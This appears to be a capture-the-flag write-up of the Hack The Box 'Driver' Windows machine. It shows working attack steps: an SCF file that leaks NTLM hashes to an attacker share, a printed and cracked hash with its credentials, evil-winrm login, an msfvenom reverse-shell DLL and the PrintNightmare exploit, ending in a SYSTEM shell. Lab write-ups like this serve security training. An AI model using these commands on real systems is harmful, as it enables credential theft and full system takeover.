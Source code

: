 ```yaml
---
layout: post
title: HTB Driver Writeup  
subtitle: Easy Box
thumbnail-img: /assets/img/driver.png
tags: [HTB]
---
```


![Explore](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/driver.png)


| Name | Explore |
| :------ |:--- |
| OS | Windows |
| RELEASE DATE | 02 Oct 2021 |
| DIFFICULTY | Easy |

# Port Scan
IP: 10.10.11.106
```
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Port 80
Looking at the page we are prompted with a login page for something called "MFP Firmware Update Center" I was able to guess the credentials `admin:admin`

On the page there was an upload section but none of my reverse shells worked. I learned about a "SCF File Attacks" https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/ 

I set up responder to listen 
`responder -wrf --lm -v -I tun0 `
l
Then I uploaded `@test.scf` file

@test.scf
```
[Shell]
Command=2
IconFile=\\KALIIP\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Responder picked up a username and hash
```
[SMB] NTLMv2 Client   : 10.10.11.106                                                                                  
[SMB] NTLMv2 Username : DRIVER\tony                                                                                   
[SMB] NTLMv2 Hash     : tony::DRIVER:b15c2e7f85d718a9:6E36D9DDD484EACD50000FB0BFDEF4BE:0101000000000000878E404A5DD0D7014A4697B1EBFEE0A900000000020000000000000000000000
```

Now we can crack this hash using hashcat, I used my host machine 
`PS C:\hashcat-6.2.3> ./hashcat.exe -m 5600 ..\hash.txt ..\rockyou.txt`

It cracks it and we get a login of `tony:liltony`

## Priv Esc

We can use our credentials to log in with evil-winrm
```
──(root💀kali)-[~/htb/driver]                                                                                        
└─# /opt/evil-winrm/evil-winrm.rb -i 10.10.11.106 -u tony -p liltony
```

Since this is a printer website and PrinterNightmare just came out lets try giving it a try I used Cube0x0's script https://github.com/cube0x0/CVE-2021-1675

Step 1 is to install Cube's version of impacket
```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Then lets get the exploit
`git clone https://github.com/cube0x0/CVE-2021-1675.git`

We will need to set up a SMB server on kali I used these configurations
`/etc/samba/smb.conf`

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[share]
    comment = Samba
    path = /srv/smb/
    guest ok = yes
    read only = no
    browsable = yes
    force user = nobody

```

Restart the service. (Make sure to turn off impacket or it will mess things up)
`service smbd restart`

Then we need to create a payload, copy it to /srv/smb/
```
┌──(root💀kali)-[/etc/samba]
└─# msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=YOURIP LPORT=4444 -f dll -o  /srv/smb/rev.dll
```

Now we can run our exploit and get a reverse shell as authority

Set up a listener
`nc -lvnp 4444`

Run the exploit
`./CVE-2021-1675.py 'DRIVER/tony:liltony@10.10.11.106' '\\KALIIP\share\rev.dll' `

And we get root!
```
┌──(root💀kali)-[~/htb]                                                                                               
└─# nc -lvnp 4444                                                                                                     
listening on [any] 4444 ...                                                                                           
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.106] 49436                                                          
Microsoft Windows [Version 10.0.10240]                                                                                
(c) 2015 Microsoft Corporation. All rights reserved.                                                                  
                                                                                                                      
C:\Windows\system32>                                                                                                  
                                                                                                                      
C:\Windows\system32>whoami                                                                                            
whoami                                                                                                                
nt authority\system 
```
